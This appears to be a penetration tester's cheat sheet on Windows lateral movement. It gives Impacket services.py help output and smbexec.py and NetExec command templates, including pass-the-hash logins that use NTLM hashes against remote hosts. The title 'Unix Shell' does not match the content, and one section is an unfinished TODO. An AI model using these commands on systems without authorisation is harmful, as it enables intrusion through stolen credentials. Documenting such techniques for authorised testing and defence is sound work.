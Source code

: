 # Unix Shell

Search Tag(s): #lateral-movement #service-control-manager #impacket #windows

## 01 - Impacket

### 1.1 - Services

#### 1.1.1 - Help Menu

```
$ services.py -h
Impacket v0.11.0 - Copyright 2023 Fortra

usage: services.py [-h] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-target-ip ip address]
                   [-port [destination port]]
                   target {start,stop,delete,status,config,list,create,change} ...

Windows Service manipulation script.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  {start,stop,delete,status,config,list,create,change}
                        actions
    start               starts the service
    stop                stops the service
    delete              deletes the service
    status              returns service status
    config              returns service configuration
    list                list available services
    create              create a service
    change              change a service configuration

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid
                        credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If ommited it will use whatever was specified as target. This is useful when target
                        is the NetBIOS name and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```

#### 1.1.2 - Usage

TODO: Fill this info

`$ services.py [-codecs <codec>]`

### 1.2 - SMBExec

- Authenticate via impacket script with smbexec

`$ smbexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ smbexec.py <username>@<IP> -hashes <LM>:<NT>

$ smbexec.py <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ smbexec.py <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>
```

## 02 - NetExec

`$ netexec smb <IP> --exec-method smbexec [-d <domain_name>] -u "<username>" -p "<password>"`

- Pass the Hash

`$ netexec smb <IP> --exec-method smbexec [-d <domain_name>] -u "<username>" -H <nt_hash>`

---
## References

- [Hacktricks: SmbExec/ScExec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)

- [nv2lt: Windows Lateral Movement with SMB, PsExec and Alternatives](https://nv2lt.github.io/windows/smb-psexec-smbexec-winexe-how-to/)